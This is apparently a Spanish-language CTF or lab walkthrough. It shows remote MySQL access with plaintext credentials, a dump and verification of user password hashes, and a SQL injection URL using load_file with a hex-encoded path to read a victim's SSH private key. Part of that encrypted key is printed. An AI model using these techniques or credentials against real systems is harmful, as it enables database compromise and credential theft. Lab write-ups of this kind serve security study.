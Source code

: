# Mysql & MysqlShow
Vamos a probar autenticarnos al servicio de `Mysql` desde la ip `10.100.10.2` a la `10.100.10.4` por el puerto `3306`
Nos metemos al servicio de mysql de la 10.100.10.4 ya que el puerto 3306 esta open
```bash
 mysqlshow -h 10.100.10.4 -udorthi -pN0Pl4c3L1keH0me mysql user
```
Usamos `mysqlshow` para listar toda la data 
```bash
mysql -h 10.100.10.4 -udorthi -pN0Pl4c3L1keH0me -e 'use mysql; select User,Password from user;'
User    Password                                                                                                                                                                 root    		*61A2BD98DAD2A09749B6FC77A9578609D32518DD                                                                                                                             dorthi  *43AE542A63D9C43FF9D40D0280CFDA58F6C747CA                                                                                                                               
```
Como sabemos si estos hashes son lo que ya tenemos?De las dos contraseñas encontradas?? pues podemos usar mysql para verificarlo de esta forma
si nosotros ya tenemos las contraseñas en texto claro.
```bash
mysql -h 10.100.10.4 -udorthi -pN0Pl4c3L1keH0me -e 'use mysql; select password("N0Pl4c3L1keH0me") from user;'
password("N0Pl4c3L1keH0me")
*43AE542A63D9C43FF9D40D0280CFDA58F6C747CA                                                                                                                                       
```
vemos que si para dorthi

vemos que si para ROOT
```bash
mysql -h 10.100.10.4 -udorthi -pN0Pl4c3L1keH0me -e 'use mysql; select password("SuP3rS3cr3tP@ss") from user;'
password("SuP3rS3cr3tP@ss")
*61A2BD98DAD2A09749B6FC77A9578609D32518DD
*61A2BD98DAD2A09749B6FC77A9578609D32518DD
*61A2BD98DAD2A09749B6FC77A9578609D32518DD
/containers/database # 
```
Desde aqui tambien podemos hacer otras cosas como listar archivos locales de la maquina victima,
y desde la injeccion en sql por fuera tambien prodriamos intentarlo. Lo probamos:
Desde el `SQLI` en el puerto 80 ip `10.10.10.96`

Paso 1 - Pasamos a hex la ruta que queremos apuntar para que se la trague correctamente
```bash
# echo "/home/dorthi/.shh/id_rsa" | xxd -ps                                                                                                                                      2f686f6d652f646f727468692f2e7368682f69645f727361
----------------------------------- Apuntamos a la ruta con un load_file(/ruta/)
"http://10.10.10.96/users/'%20union%20select%20load_file(0x2f686f6d652f646f727468692f2e7373682f69645f727361)--%20-"
-----------------------------------
Tratamiento del archivo ssh id_rsa encontrado

# cat id_rsa | sed 's/\\n/\n/g'                                                                                                                                                                               
        "-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,66B9F39F33BA0788CD27207BF8F2D0F6

RV903H6V6lhKxl8dhocaEtL4Uzkyj1fqyVj3eySqkAFkkXms2H+4lfb35UZb3WFC
b6P7zYZDAnRLQjJEc/sQVXuwEzfWMa7pYF9Kv6ijIZmSDOMAPjaCjnjnX5kJMK3F
e1BrQdh0phWAhhUmbYvt2z8DD/OGKhxlC7oT/49I/ME+tm5eyLGbK69Ouxb5PBty
h9A+Tn70giENR/ExO8qY4WNQQMtiCM0tszes8+guOEKCckMivmR2qWHTCs+N7wbz
```